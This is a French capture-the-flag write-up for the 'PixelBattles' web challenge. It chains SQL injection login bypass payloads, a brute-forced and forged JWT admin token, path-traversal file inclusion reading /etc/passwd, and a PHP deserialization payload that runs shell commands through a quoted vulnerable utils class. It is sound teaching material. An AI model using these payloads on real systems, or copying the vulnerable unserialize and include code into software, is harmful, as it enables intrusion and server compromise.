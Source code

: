 ```yaml
---
title: PixelBattles
categories: [Purple_Pill_2024, Web]
tags: [web, SQLI,LFI,PHP_unsearialize,JWT]
image: '/assets/images/Purple_Pill_2024/logo.png'
---
```


## 𝄞 Introduction

![Intro](/assets/images/Purple_Pill_2024/Web/PixelBattles/intro.webp)

Ce challenge consiste à exploiter différentes vulnérabilités web pour compromettre le serveur, obtenir un accès RCE et récupérer le flag.

## 𝄞 Solution

### 1. Bypass de l'authentification

![Accueil](/assets/images/Purple_Pill_2024/Web/PixelBattles/login.webp)

La page d'accueil propose une authentification. Sans informations utilisateur, nous tentons une injection SQL pour contourner cette authentification. En injectant une simple apostrophe (`'`) dans le champ **username** la page renvoie un **écran blanc**.

![Blank](/assets/images/Purple_Pill_2024/Web/PixelBattles/blank.webp)

En essayant un couple identifiant/mot de passe aléatoire nous obtenons un message d’erreur :  
**Invalid username or password**. 

![Error](/assets/images/Purple_Pill_2024/Web/PixelBattles/invalid.webp)

Nous allons donc essayer de faire une injection SQL pour bypass l'authentification.

```bash
' OR 1 = 1-- 
```

Cette injection fonctionne et nous permet de contourner l’authentification.

![Connected](/assets/images/Purple_Pill_2024/Web/PixelBattles/connected.webp)
![User](/assets/images/Purple_Pill_2024/Web/PixelBattles/sqli2.webp)  

Nous sommes connectés en tant qu’utilisateur `|1|1th`. Cependant, l’accès à la section **Admin** est refusé avec une erreur **Access Denied**.

![Error](/assets/images/Purple_Pill_2024/Web/PixelBattles/403.webp)

Pour tenter de se connecter avec un autre utilisateur, nous modifions notre requête **SQL** en utilisant **LIMIT** :

```bash
' OR 1 LIMIT 1,2;-- 
``` 
![User](/assets/images/Purple_Pill_2024/Web/PixelBattles/sqli2.webp)

```bash
' OR 1 LIMIT 2,3;-- 
``` 
![User2](/assets/images/Purple_Pill_2024/Web/PixelBattles/sqli3.webp)

Nous trouvons l’utilisateur **Semah**, mais avec les mêmes droits que le précédent. Nous explorons donc une autre piste.

### 2. Exploitation du token JWT

En inspectant le cookie de session, nous découvrons que la technologie utilisée est le **JWT (JSON Web Token)** :

```bash
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InNlbWFoIiwicm9sZSI6InVzZXIifQ.tsiCoyPyfA_XBJnhEE8K-tf5e_4qT6wpYMnozmEfmiQ
```

En le décodant sur [jwt.io](https://jwt.io), nous découvrons le nom d'utilisateur et le rôle associé.

![JWT](/assets/images/Purple_Pill_2024/Web/PixelBattles/jwt.webp)

Nous modifions le champ "role" en **admin** et régénérons le token, mais cela ne fonctionne pas, le cookie est invalide car nous ne connaissons pas le **secret** pour signer le token.

Nous utilisons alors **hashcat** pour brute-forcer le secret du token.

```bash
hashcat -a 0 -m 16500 jwt.txt rockyou.txt
```

Après quelques minutes, nous obtenons le mot **"secret"** comme clé secrète.

![Hashcat](/assets/images/Purple_Pill_2024/Web/PixelBattles/hashcat.webp)

En régénérant le token avec **role: admin**, nous restons connectés après le rafraîchissement de la page et obtenons l'accès à l'interface **Admin**.

![Admin](/assets/images/Purple_Pill_2024/Web/PixelBattles/admin.webp)

### 3. Exploitation LFI (Local File Inclusion)

Dans la section **admin**, nous trouvons des liens vers plusieurs fichiers d’articles, et l'un d'eux, **article1.txt**, affiche le texte **test**.

![LFI](/assets/images/Purple_Pill_2024/Web/PixelBattles/lfi.webp)

Nous suspectons ici une vulnérabilité *LFI** car il y a une inclusion de fichier.

Nous testons le payload suivant pour lire le fichier **/etc/passwd** :

```bash
page=../../../../etc/passwd
```

![LFI2](/assets/images/Purple_Pill_2024/Web/PixelBattles/lfi2.webp)

![LFI3](/assets/images/Purple_Pill_2024/Web/PixelBattles/lfi3.webp)

Cela fonctionne ! 

Dans le but d’obtenir une **RCE**, nous tentons de lire les fichiers de logs pour réaliser une attaque de type **log poisoning**, mais la lecture des logs est impossible. Nous essayons alors différents **wrappers PHP**, sans succès. Une tentative d’attaque **RFI** sans succès également.


### 4. Découverte de failles RCE avec PHP Unserialize

En examinant le code source des pages PHP via le **wrapper PHP** suivant :  
**php://filter/convert.base64-encode**  

Nous trouvons des fonctionnalités potentiellement exploitables. Le code de **admin.php** contient un paramètre **theme** qui utilise la fonction `unserialize` sur une valeur en base64. La page **admin.php** fait également appel à **utils.php**

![LFI4](/assets/images/Purple_Pill_2024/Web/PixelBattles/lfi4.webp)

```PHP
<?php

ini_set('display_errors', 0);
ini_set('display_startup_errors', 0);

require 'vendor/autoload.php';
require 'utils.php';
use Firebase\JWT\JWT;
use Firebase\JWT\Key;

$secret_key = "secret";

REDACTED

if (isset($_GET['page'])) {
    if (strlen($_GET['page'])>100){die("String too long !");}
        $page = $_GET['page'];
        include($page);
}
if (isset($_GET['theme']))
{
    $theme = unserialize(base64_decode($_GET['theme']));
    echo $theme;
}
?>

REDACTED
```

Cette déserialisation pourrait être exploitée en injectant un objet malveillant. Nous regardons alors le contenu de **utils.php** pour mieux comprendre.

![LFI5](/assets/images/Purple_Pill_2024/Web/PixelBattles/lfi5.webp)

```PHP
<?php
ini_set('display_errors', 0);
ini_set('display_startup_errors', 0);

class utils{
    public $command;

    public function __construct($command = '') {
        $this->command = $command;
    }

    public function __wakeup() {
        if ($this->command) {
            echo "Executing command: " . htmlspecialchars($this->command) . "<br>";
            echo "Command output: " . htmlspecialchars(shell_exec($this->command));
        }
    }
}
```

Ce code présente une vulnérabilité critique liée à l’utilisation de la fonction **unserialize** sur une entrée utilisateur encodée en **base64**. 

Le fichier **admin.php** reçoit un paramètre **theme**, le décode en **base64**, puis le **désérialise**, ce qui active les méthodes spéciales de **PHP**, comme **__wakeup**.  

Dans **utils.php**, la classe **utils** possède une méthode **__wakeup** qui exécute des commandes système via **shell_exec** si une commande est présente. Ainsi, un attaquant pourrait injecter un objet malveillant pour exécuter des commandes sur le serveur, compromettant ainsi l’application.

Avec toutes ces informations, nous pouvons maintenant créer notre payload. Pour cela, je me suis appuyé sur cet [article](https://www.vaadata.com/blog/fr/deserialisation-vulnerabilites-exploitations-et-bonnes-pratiques-securite/) qui explique ce concept de manière très claire.


Payload :

```PHP
O:5:"utils":1:{s:7:"command";s:2:"id";}
```

Encodé en **base64** :  
`Tzo1OiJ1dGlscyI6MTp7czo3OiJjb21tYW5kIjtzOjI6ImlkIjt9`

En l’utilisant, nous parvenons à exécuter des commandes sur le serveur.

![PHP](/assets/images/Purple_Pill_2024/Web/PixelBattles/php.webp)

Nous explorons ensuite le serveur et trouvons le fichier `fc778805b96312d5737aeddea59577c4.txt`. 

![PHP2](/assets/images/Purple_Pill_2024/Web/PixelBattles/php2.webp)

Pour le lire, nous utilisons un nouveau payload :

```PHP
O:5:"utils":1:{s:7:"command";s:40:"cat fc778805b96312d5737aeddea59577c4.txt";}
```

Encodé en **base64** :  
`Tzo1OiJ1dGlscyI6MTp7czo3OiJjb21tYW5kIjtzOjQwOiJjYXQgZmM3Nzg4MDViOTYzMTJkNTczN2FlZGRlYTU5NTc3YzQudHh0Ijt9`

![PHP3](/assets/images/Purple_Pill_2024/Web/PixelBattles/php3.webp)

𝄞 FLAG : `PPC24{fc778805b96312d5737aeddea59577c4}` 𝄞